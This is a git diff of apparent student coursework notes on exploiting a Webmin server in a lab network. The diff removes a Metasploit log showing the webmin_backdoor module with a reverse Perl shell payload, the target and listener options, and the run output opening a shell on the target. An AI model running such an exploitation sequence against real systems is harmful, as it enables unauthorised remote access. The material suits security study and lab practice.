

vault backup: 2023-03-07 17:35:27

diff --git a/year-1/CF/CW2/CW2-notes.md b/year-1/CF/CW2/CW2-notes.md
@@ -40,76 +40,9 @@
 - We can then setup the exploit with the options for the victim server and run the exploit
 
 ![[webmin-setup.png]]
-```
-msf6 > use 0
-[*] Using configured payload cmd/unix/reverse_perl
-msf6 exploit(linux/http/webmin_backdoor) > show options
+![[webmin-run.png]]
 
-Module options (exploit/linux/http/webmin_backdoor):
-
-   Name       Current Setting  Required  Description
-   ----       ---------------  --------  -----------
-   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
-   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
-   RPORT      10000            yes       The target port (TCP)
-   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
-   SRVPORT    8080             yes       The local port to listen on.
-   SSL        false            no        Negotiate SSL/TLS for outgoing connections
-   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
-   TARGETURI  /                yes       Base path to Webmin
-   URIPATH                     no        The URI to use for this exploit (default is random)
-   VHOST                       no        HTTP server virtual host
-
-
-Payload options (cmd/unix/reverse_perl):
-
-   Name   Current Setting  Required  Description
-   ----   ---------------  --------  -----------
-   LHOST                   yes       The listen address (an interface may be specified)
-   LPORT  4444             yes       The listen port
-
-
-Exploit target:
-
-   Id  Name
-   --  ----
-   0   Automatic (Unix In-Memory)
-
-
-
-View the full module info with the info, or info -d command.
-
-msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 10.1.26.30
-RHOSTS => 10.1.26.30
-msf6 exploit(linux/http/webmin_backdoor) > set SSL true
-[!] Changing the SSL option's value may require changing RPORT!
-SSL => true
-msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.1.26.20
-LHOST => 10.1.26.20
-msf6 exploit(linux/http/webmin_backdoor) > run
-
-[*] Started reverse TCP handler on 10.1.26.20:4444
-[*] Running automatic check ("set AutoCheck false" to disable)
-[+] The target is vulnerable.
-[*] Configuring Automatic (Unix In-Memory) target
-[*] Sending cmd/unix/reverse_perl command payload
-[*] Command shell session 2 opened (10.1.26.20:4444 -> 10.1.26.30:52474) at 2023-03-06 13:52:36 +0000
-```
-
-- This gives us a shell on the server, granted not the best shell in the world
-
-```
-[*] Sending cmd/unix/reverse_perl command payload
-[*] Command shell session 2 opened (10.1.26.20:4444 -> 10.1.26.30:52474) at 2023-03-06 13:52:36 +0000
-
-ls
-JSON
-LICENCE
-LICENCE.ja
-README
-WebminCore.pm
-WebminUI
-```
+- This gives us a root shell on the server, granted not the best shell in the world
 
 #### Upgrading the shell
 
